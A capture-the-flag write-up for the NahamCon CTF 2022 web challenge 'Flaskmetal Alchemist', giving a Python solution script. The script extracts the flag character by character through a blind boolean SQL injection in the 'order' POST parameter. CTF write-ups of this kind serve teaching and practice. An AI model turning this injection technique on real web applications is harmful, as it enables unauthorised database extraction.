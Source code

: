 ```yaml
---
name: Flaskmetal Alchemist (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Flaskmetal Alchemist (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flaskmetal Alchemist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=705 "NahamCon CTF 2022: Flaskmetal Alchemist")

## Description

> Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

## Solution

```py
import requests
import string
from bs4 import BeautifulSoup

url = 'http://challenge.nahamcon.com:30010/'
flag = 'flag{'
index = 6

# Until we've got the whole flag
while flag[-1] != '}':
    for char in list('_' + string.ascii_lowercase + '}'):  # Charset
        # Post data, orderby is the SQLi (blind boolean)
        data = {"search": "",
                "order": f"(CASE WHEN (SELECT (SUBSTR(flag, {index}, 1)) from flag ) = '{char}' THEN name ELSE atomic_number END) DESC--"}

        response = requests.post(url, data=data)
        # Extract the first value
        extracted = BeautifulSoup(response.text, features="lxml").td.contents[0]

        # If it's 116 (Livermorium) then condition is false
        if extracted != '116':
            flag += char
            print(flag)
            index += 1
            break
```
